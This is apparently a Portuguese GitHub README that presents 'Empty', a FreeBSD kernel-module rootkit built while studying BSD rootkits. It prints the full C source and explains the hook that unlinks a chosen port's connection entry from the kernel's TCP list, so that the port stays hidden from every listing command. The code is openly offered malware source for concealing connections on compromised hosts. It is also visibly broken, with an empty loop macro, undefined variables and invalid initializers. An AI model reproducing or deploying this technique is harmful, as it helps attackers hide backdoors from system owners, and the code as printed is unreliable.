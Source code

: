 <img width="30%" src="https://i.imgur.com/CGV9DU1.png"></img>

# Empty
[Empty](https://github.com/xnwm0/empty), foi um projeto que eu fiz quando estava estudando bsd-rootkit<br><br>

Basicamente, o que ele faz é parecido com o que o [lowlife](https://github.com/xnwm0/lowlife) faz, porém fiz um sistema de input em bash para o usuário especificar a porta que quer esconder.<br>
O que esse driver faz, é carregar a port list, e remover a porta dessa lista, assim mesmo que exista uma conexão estabelecida nessa determinada porta ela não é exibida<br><br>

empty.c
```c
/*
 *  by kosu @ greetz lowlife         $
 *  based on design bsd rootkits     $
 *                                  */


/* --- kld libs --- */
#include<sys/errno.h>
#include<sys/kernel.h>
#include<sys/module.h>
#include<sys/systm.h>
#include<sys/param.h>
#include<sys/types.h>
#include<sys/proc.h>
#include<sys/cdefs.h>
#include<sys/sysent.h>
#include<sys/queue.h>
#include<sys/socket.h>

/* --- network libs --- */
#include<net/if.h>
#include<netinet/in.h>
#include<netinet/in_pcb.h>
#include<netinet/ip_var.h>
#include<netinet/tcp_var.h>

/* --- config --- */

#include "conf/config.h"

struct empty_hide_arg { u_int16_t lport = w00t; };

static int empty_hide(struct thread *td, void *sysc_arg)
{
  struct empty_hide_args *empt;
  empt = (struct empty_hide_args *)sysc_arg;

  struct inpcb *inp_;

  INP_INFO_WLOCK(&tcbinfo);

  /* --- list --- */

  LIST_FOREACH()
  {
    if ( inp_->inp_vflag & INP_TIMEWAIT ) continue;
    INP_LOCK(inp_);

    /* --- remove port from list ;p (hide) --- */
    if (uap->lport == htons(inp_->inp_inc.inc_ie.ie_lport)) LIST_REMOVE(inp_, inp_list); INP_UNLOCK(inp_);
    return(0);
  }
}

static struct sysent empty_hide_sysent = { 1, empty_hide }; /* sysent for empty_hide */
static int offset = NO_SYSCALL;

/* --- empty loader --- */

static int empty(struct module *m, int cmd, void *arg)
{
  int err = 0;

  switch(cmd)
  {
    case MOD_LOAD:
      uprintf(" * Ok! empty KLD loaded on offset: %d *\n", offset);
      break;

    case MOD_UNLOAD:
      uprintf(" * Ok! empty KLD unloaded from offset: %d.\n", offset);
      break;

    default:
      err = EOPNOTSUPP;
      break;
  }

  return(err);

}

SYSCALL_MODULE(empty, &offset, &empty_hide_sysent, empty, NULL); /* --- load sysent  --- */
```

## Hook
Aqui que acontece o hook `if (uap->lport == htons(inp_->inp_inc.inc_ie.ie_lport)) LIST_REMOVE(inp_, inp_list); INP_UNLOCK(inp_);`<br>
Nessa linha, se a porta for encontrada na list, a função `LIST_REMOVE` remove ela, assim toda vez que for estabelecida uma conexão, esse driver deleta a porta da list, e nenhum usuário pode encontrar essa porta por meio de qualquer comando<br><br>

[pwn](../README.md)<br>
[home](../../README.md)
